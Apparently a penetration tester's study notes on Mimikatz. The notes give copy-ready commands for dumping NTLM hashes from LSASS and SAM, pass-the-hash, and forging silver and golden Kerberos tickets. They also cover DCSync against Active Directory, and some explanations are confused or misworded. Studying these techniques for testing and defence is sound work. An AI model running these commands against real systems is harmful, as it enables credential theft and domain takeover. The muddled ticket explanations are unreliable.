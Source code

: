 # Mimikatz
Used in Post Privilege Esculation in maintaining [[Persistence]] through credential harvesting and [[Active-Directory-Lateral-Movement]]. Mimikatz is used to dump credentials:
- From windows protect memory (LSASS) and activity directory domain controller database
- Kerberos tickets
	- For all users
	- For current users
- Credential Injection
- Generate Silver/Golden tickets
	- [[Pass-The-Hash]]
	- [[Pass-The-Ticket]]
- And more

```powershell
privilege::debug # enables the _SeDebugPrivilge_ access right
token::elevate # elevate the security token Administrator -> SYSTEM
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### Extracting NTLM hashes from local SAM

```powershell
privilege::debug
token::elevate

lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

### Extracting NTLM hashes from LSASS memory

```powershell
privilege::debug
token::elevate

sekurlsa::msv
```
These hashes can be used to perform [[Pass-The-Hash]] attacks by using `mimikatz` to inject an access token for the vicitim user on any command!
```powershell
token::revert
sekurlsa::pth /user:<username> /domain:<domain-name> /ntlm:<ntlm hash> /run:<cmds goes here>
sekurlsa:pth ... /run:""
```

## Kerberos Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos and [[Active-Directory-Kerberos-Authenication-Defined]]. It is credential base so understanding [[Active-Directory-Authentication]] in part for [[Active-Directory-Privilege-Escalation]] and [[Active-Directory-Lateral-Movement]] as it is capable of command execution.

### Kerberos Tickets
```powershell
kerberos::list /export
```

### Overpass the Hash Attacks
```powershell
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$admin /domain:$domain.com /ntlm:$NThash /run:Powershell.exe
```

### Silver Ticket Attacks
Don't be confused `kerberos::golden` is for Silver Ticket Attacks, see Golden Ticket Attacks. Requires:# Username, Domainame, SID of Domain defined by all except the ultimate `-0000`, Service to target, Service type(eg. HTTP), password hahsh of the Service Account. Creating a service ticket for the SPN HTTP/WebServer.Domain.com with this technique from perspective of application the current user will be built-in local administrator and Domain Admin group member.
```powershell
kerberos::purge
kerberos::list

kerberos::golden /user:$user /domain:$domain.com /sid:$SID-minus-exception /target:$TargetServer.$domain.com /service:$servicetype /rc4:$passwordhash-of-spn /ptt # /ptt means injected directly into memory
```

### Golden Ticket Attacks 
Don't be confused `kerberos::golden` is for Silver Ticket Attacks
```powershell
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

With Domain Admin group access:
```powershell
privilege::debug
lsadump::lsa /patch
# Look for krbtgt
```

Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain. 
Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`, then open command prompt with elevated privileges `misc::cmd`.

```powershell 
kerberos::purge # Removed cached tickets
kerberos::golden /user:hacker /domain:$domainname.com /sid:$sid /krbtgt:$krbtgt-hash /ptt 
misc::cmd
```

Mimikatz provides two sets of default values when using the golden ticket option:
1. User IP - default set: 500, RID of builtin Administrator
2. Group IP - Domain Admins group

### DCSync Attacks
Visit [[Active-Directory-Persistence]] for details.

```powershell
lsadump::dcsync /user:Administrator
```